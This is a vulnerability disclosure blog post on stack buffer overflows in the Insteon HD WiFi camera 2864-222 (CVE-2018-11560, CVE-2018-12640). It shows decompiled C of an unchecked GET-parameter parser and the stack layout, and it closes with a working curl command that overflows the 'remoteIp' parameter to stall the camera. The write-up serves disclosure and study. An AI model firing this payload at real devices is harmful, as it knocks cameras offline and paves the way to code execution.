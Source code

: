 # Finding 0-days in Insteon HD WiFI Camera 2864-222 (CVE-2018-11560 and CVE-2018-12640)

In this brief blogpost we will exploit the Insteon HD Wifi <a href="https://www.amazon.com/Insteon-2864-222-HD-Camera-White/dp/B00Q5XRS8S/ref=sr_1_4?s=hi&ie=UTF8&qid=1522359060&sr=1-4&keywords=insteon+wifi+camera">Camera</a>, model 2864-222.

Without too much talking, let's start.

## Traffic Analysis

According on the Insteon WiFI camera manual, this camera provides an HTTP web interface, which can be accessed at http://<ip_camera>:34100.
Though we tried with all the Internet browsers we could think of (Google Chrome, IE, Firefox, Opera and Safari, lynx), we weren't able to log into the camera to see the video stream.
After calling the Insteon support, we were told that the necessary browser plugins to login using a web browser were not maintained anymore. Too bad!

We then opened wireshark to sniff the traffic between the Insteon app and the camera, and we found, as we can see from the picture below, that the HTTP interface was still active and responding.


![alt text](https://github.com/badnack/Insteon_2864-222/blob/master/shark.png "Wireshark sniffing")


Note also that, the credentials are transmitted in clear text. 
First bad sign. 


## Firmware Analysis
We then wanted to get our hands on the firmware mounted on the camera.
After some research, we found that: 1) the camera firmware is publicly avilable, though encrypted and 2) the Insteon camera is a rebrand of Foscam.
With these information in mind, we downloaded the firmware and successfully decrypted it with one of the known Foscam used passwords.
After looking at the contained binary files, it became clear that the camera mounts an ARM architecture.
Among these, we identified the binary named webService, as the binary handling the user-provide requests.

Once opened with the IDA decompiler, we proceeded in finding the function parsing the URIs parameters. 

To do this we looked for the known GET keywords we observed during the traffic sniffing phase.
In particular, we looked for the keyword 'usr' as in 'usr=root', and after finding it, we retrieved all the functions refercing such string.
After looking at each one of these function, we found the one we were looking for, whose code is reported below.
```c
signed int __fastcall get_value_key(const char *user_URI, const char *key_word, _BYTE *dst_buff)
{
   bool v3; // zf
  signed int counter; // r7
  char *key_val_ptr; // r0
  signed int result; // r0
  const char *assign_ptr; // r5
  signed int assign_len; // r0
  int current_char; // r3
  const char *val_ptr; // r5
  signed int val_len; // r0
  signed int i; // r3
  int c; // r2
  int tmp_buff; // [sp+0h] [bp-98h]

  v3 = key_word == 0;
  if ( key_word )
    v3 = dst_buff == 0;
  if ( v3 )
    return -1;
  counter = 0;
  memset(&tmp_buff, 0, 0x80u);
  strcpy((char *)&tmp_buff, key_word);
  strcat((char *)&tmp_buff, "=");
  key_val_ptr = strstr(user_URI, (const char *)&tmp_buff);
  if ( !key_val_ptr )
  {
    *dst_buff = 0;
    return -1;
  }
  assign_ptr = &key_val_ptr[strlen((const char *)&tmp_buff) - 1];
  assign_len = strlen(assign_ptr);
  do
  {
    if ( counter >= assign_len )
      break;
    current_char = (unsigned __int8)assign_ptr[counter++];
  }
  while ( current_char != '=' );
  val_ptr = &assign_ptr[counter];
  val_len = strlen(val_ptr);
  for ( i = 0; i < val_len; ++i )
  {
    c = (unsigned __int8)val_ptr[i];
    if ( c == '&' )
    {
      dst_buff[i] = 0;
      break;
    }
    dst_buff[i] = c;
  }
  result = 0;
  dst_buff[i] = 0;
  return result;
}
```

As we can see, the above code parses a given URI, searches for the GET key (e.g., 'usr'), skips the '=' characters and finally copy the value associate with the considered key in a provided destination buffer.
The problem here, is that the length of the destination buffer is not provided, let alone check. Therefore, one could potentially provide a value for a the 'usr' key long enough to overwrite any provided destination buffer.
Let's try this out.

First off, we will retrieve the list of the keywords the firmware accepts, by looking for all the cross-references to the above function, and retrieving the passed keywords.
Overall there are __789 different instances__ of this function being called, possibly meaning __789 different unique vulnerabilties__.
We only tested and successfully verified only a bunch of them. For space reasons, and because the exploits look all very similar, here I will report only one of them, for which the __CVE-2018-11560__ was assigned.
Other bugs related to the GET keywords 'pid', 'pwd' and 'usr' were assigned to __CVE-2018-12640__.

Among the GET keys accepted by the web-server, there is one called 'remoteIp'.
The snippet of the function that retrieves its value, by calling the get_value_key function, is reported below:

```c
signed int __fastcall executeCGICmd(int a1, const char *a2)
{
  const char *v2; // r4
  int v3; // r8
  int v5; // r0
  char v6; // [sp+14h] [bp-124h]
  char v7; // [sp+54h] [bp-E4h]
  char v8; // [sp+94h] [bp-A4h]
  char s; // [sp+D4h] [bp-64h]
  int v10; // [sp+114h] [bp-24h]

  v2 = a2;
  v3 = a1;
  if ( !a2 )
    return -1;
  memset(&s, 0, 0x40u);
  memset(&v8, 0, 0x40u);
  memset(&v7, 0, 0x40u);
  v10 = 0;
  sub_2830C(v2, &v7);
  sub_282E8(v2, &s);
  sub_282C4(v2, &v8);
  get_value_key_bug(v2, "remoteIp", &v6);
  if ( !sub_52C44((int)&unk_A5A78, &v6) )
  {
  // additional code...
 ```


As one can see, the destination buffer is defined as big as 64 bytes, which means that if the value provided for the key 'remoteIp' is longer than 64 characters, the function 'get_value_key' will overflow the buffer v6.
Moreover, as the last assembly instruction overwrites the value of PC through a pop from the stack (as shown below), one can calculate the offset of the memory value being popped (i.e., the LR register content), and overwrite it with a known value.

```asm
loc_2907C
ADD     SP, SP, #0x118
LDMFD   SP!, {R4-R10,PC}
; End of function executeCGICmd
```

To easily prove our exaploit and see its effects, we targeted the 'sleep' function.

The final attack is the following:

```bash
time curl --silent --output /dev/null curl 10.250.250.126:34100/cgi-bin/CGIProxy.fcgi\?cmd=asd\&usr=asd\&pwd=asd\&remoteIp=`python -c "print ('A'*266 + '\x9c\x32')"`
```

The above command, when executed, stalls the camera for no less than 45 second.
During this time the camera stream become unavailable, which for a WiFi camera I would say it's pretty bad, if you ask me.

